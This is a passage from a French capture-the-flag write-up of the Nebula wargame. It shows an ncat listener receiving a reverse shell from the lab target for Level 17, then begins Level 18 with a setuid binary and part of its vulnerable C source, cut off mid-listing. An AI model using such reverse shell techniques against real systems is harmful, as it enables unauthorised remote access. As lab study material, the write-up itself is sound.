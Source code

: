 ```shellsession
$ ncat -l -p 9999 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.56.97.
Ncat: Connection from 192.168.56.97:59835.
id
uid=982(flag17) gid=982(flag17) groups=982(flag17)
getflag
You have successfully executed getflag on a target account
```

## Level 18

Ce level a été de loin le plus difficile. D'ailleurs la solution n'est pas de moi.

On a un fichier `password` qui nous est inaccessible et un binaire setuid :

```shellsession
level18@nebula:/home/flag18$ ls -l
total 13
-rwsr-x--- 1 flag18 level18 12216 2011-11-20 21:22 flag18
-rw------- 1 flag18 flag18     37 2011-11-20 21:22 password
```

On dispose aussi du code source du binaire :

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>
#include <fcntl.h>
#include <getopt.h>

struct {
  FILE *debugfile;
  int verbose;
  int loggedin;
} globals;

#define dprintf(...) if(globals.debugfile) \
  fprintf(globals.debugfile, __VA_ARGS__)
#define dvprintf(num, ...) if(globals.debugfile && globals.verbose >= num) \
  fprintf(globals.debugfile, __VA_ARGS__)

#define PWFILE "/home/flag18/password"

void login(char *pw)
{
  FILE *fp;

  fp = fopen(PWFILE, "r");
  if(fp) {
      char file[64];

      if(fgets(file, sizeof(file) - 1, fp) == NULL) {
          dprintf("Unable to read password file %s\n", PWFILE);
          return;
      }
                fclose(fp);
      if(strcmp(pw, file) != 0) return;       
  }
  dprintf("logged in successfully (with%s password file)\n",
```